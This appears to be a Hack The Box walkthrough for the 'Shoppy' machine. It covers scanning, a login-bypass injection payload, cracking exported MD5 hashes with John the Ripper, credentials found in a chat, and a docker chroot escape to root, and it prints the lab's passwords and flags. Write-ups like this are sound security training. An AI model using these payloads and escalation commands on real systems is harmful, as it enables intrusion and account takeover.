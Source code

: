 # Shoppy - Hack the Box

## Run an nmap scan

> nmap -sC -sV -Pn 10.10.11.180

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-10 18:41 EST
Nmap scan report for 10.10.11.180
Host is up (0.075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.44 seconds
```

Going to the <IP>:80 in the browser shows that there should be a DNS entry in the hosts files for shoppy.htb

After we edit the host file, we can load the webpage

Let's also run a gobuster to find directories

## Gobuster

> gobuster dir -u http://shoppy.htb -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/10 19:20:50 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1074]
/images               (Status: 301) [Size: 179] [--> /images/]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

Navigating to http://shoppy.htb/login gives us a login page

We can do a SQL injection to bypass the login by putting:
> admin’ || ‘1==1
as the username.

Then if we search for users, and search for the same SQL injection `admin’ || ‘1==1` it takes us to a page we can download an export from.
If you download the export it gives you a JSON page with this info:

```	
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

### John the Ripper to crack the hashes

> john --format=raw-md5 joshhash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)
1g 0:00:00:00 DONE (2022-11-10 19:41) 4.545g/s 3690Kp/s 3690Kc/s 3690KC/s renato1989..remaster
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

We can't SSH in with that account, so we have to find something different.

## Enumerate subdirectories to find potential hidden content

> gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb

mattermost.shoppy.htb

Set that to the same IP in hosts file

Navigate to that subdomain in a browser, login with josh username and password, and find a chat with deploy instructions for a user account:

username: jaeger
password: Sh0ppyBest@pp!

#### USER FLAG: 5ef787c8666af5e245fe321df6a7fa5a

## Find out what user has sudo access to

> sudo -l

```console
Matching Defaults entries for jaeger on shoppy:                              
    env_reset, mail_badpass,                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                         
                                                                             
User jaeger may run the following commands on shoppy:                        
    (deploy) /home/deploy/password-manager
```

### Run the password manager as the deploy user

> sudo -u deploy /home/deploy/password-manager

### Run the GTFOBins docker binary

> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Grab the root flag

#### ROOT FLAG: 73fbe90be94c930fdbadac562239e0da